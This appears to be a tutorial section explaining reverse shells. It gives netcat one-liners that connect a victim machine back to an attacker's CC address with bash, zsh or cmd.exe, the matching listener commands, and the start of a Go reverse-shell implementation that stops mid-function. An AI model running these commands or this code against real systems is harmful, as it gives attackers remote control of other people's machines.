 ## Reverse Shell

Reverse shells aim to fix the issues of bind shells by swithcing the client-server roles between the victim and the host. A reverse shell initiates a connection from the remote computer to a CC server listening on a network port. Once the connection is established, a shell is spawned that allows the attacker to execute commands on the remote computer.
One of the main advantages of a reverse shell is that it can bypass firewalls and other network security measures that block incoming connections (most hosts are intended to be used as clients not server). Because the connection is initiated from the remote system, it appears to be a legitimate outbound connection and may be allowed through network security measures that would otherwise block incoming connections.
Another advantage of reverse shells is that they don't require the attacker to know the IP address or hostname of the remote system in advance. Instead, the payload or script used to establish the reverse shell includes the IP address and port of the attacker's system, allowing the connection to be initiated automatically when the payload is executed on the remote system.
Furthermore it is not as easy for anyone to connect to our remote shell since the connection is established by the victim host directly to our CC server which is usually identified via a domain name or directly by IP address.

To create a reverse shell on a victim's system you can use one of the following commands (depending on OS, availability and preference):

- `nc -v [CC IP] [port number] -e /bin/zsh` (Netcat/Mac)
- `nc -v [CC IP] [port number] -e /bin/bash` (Netcat/Linux)
- `nc.exe -v [CC IP] [port number] -e cmd.exe` (Netcat/Windows)

The attacker then only has to run one of the followin g commands to establish a reverse shell connection:

- `nc –vlp [port number]` (Netcat/Linux & Netcat/Mac)
- `nc.exe –vlp [port number]` (Netcat/Windows)

### Implementing a Reverse Shell in Go

When reading the code for the reverse shell and the bind you will notice many similarities between the two as they perform essentially the same task but with switched roles regarding initialisation.

```Go
func reverseShellHost(serverAddr string, serverPort string) {

 // connect to the cc server
 conn, err := net.Dial("tcp", serverAddr+serverPort)
 if err != nil {
  log.Println("An error occurred while connecting to CC server:", err)
  os.Exit(1)
 } else {
  log.Println("Successfully connected to CC server")
 }

 // make sure connection is closed when process finishes
 defer conn.Close()

 // start local shell
 os := runtime.GOOS
 shell := exec.Command("/bin/bash")
 switch os {
 case "windows":
  shell = exec.Command("powershell.exe")
 case "linux":
  shell = exec.Command("/bin/bash")
 case "darwin":
  shell = exec.Command("/bin/zsh")
 }

 // connect shell to cc server
 shell.Stdin = conn
```